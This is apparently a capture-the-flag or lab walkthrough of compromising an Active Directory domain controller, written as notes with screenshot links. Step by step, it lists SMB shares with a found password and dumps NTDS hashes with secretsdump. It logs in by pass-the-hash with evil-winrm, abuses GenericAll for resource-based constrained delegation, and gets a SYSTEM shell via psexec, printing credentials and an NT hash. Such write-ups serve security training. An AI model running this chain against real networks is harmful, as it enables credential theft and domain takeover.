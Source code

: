 Checking shares for V.Ventz user:
```
smbclient -L \\\\192.168.198.175\\ -U V.ventz%'HotelCalifornia194!'
```

![](../attachment/2b4196547a364d25fdddca23af644424.png)

In "Password Directory":
![](../attachment/86c9b386de846452f6029df0f36cdf6a.png)
We have ntds.dit.
In registry share:
![](../attachment/1ac7b9bbbed634f740e0a69efdb2dc05.png)
Now we can use secretsdump.py:
```
secretsdump.py LOCAL -ntds ntds.dit -system ../registry/SYSTEM
```
We can check for *L.livingstone* as:
![](../attachment/5c46abad9e2c92f2a87c87a39e38d481.png)
As he is the SysAdmin:
```
evil-winrm -i 192.168.198.175 -u L.Livingstone -H '19a3a7550ce8c505c2d46b5e39d6f808'
```

Running Sharphound:
```
.\SharpHound.exe -c All
```
![](../attachment/c2e2daade3e794efd037c2dd0035018f.png)

We have genericAll

```
impacket-addcomputer resourced.local/l.livingstone -dc-ip 192.168.198.175 -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'ATTACK$' -computer-pass 'AttackerPC1!'
```

Now use rbcd.py:
```
rbcd.py -dc-ip 192.168.198.175 -t RESOURCEDC -f 'ATTACK' -hashes :19a3a7550ce8c505c2d46b5e39d6f808 resourced\\l.livingstone
```

Then:
```
impacket-getST -spn cifs/resourcedc.resourced.local resourced/attack\$:'AttackerPC1!' -impersonate Administrator -dc-ip 192.168.x.x
```

Now can get a nt authority\\system shell.
```
psexec.py -k -no-pass resourcedc.resourced.local -dc-ip 192.168.198.175
```
![](../attachment/06315889a2c8d2469dae27a7db0f2d8f.png)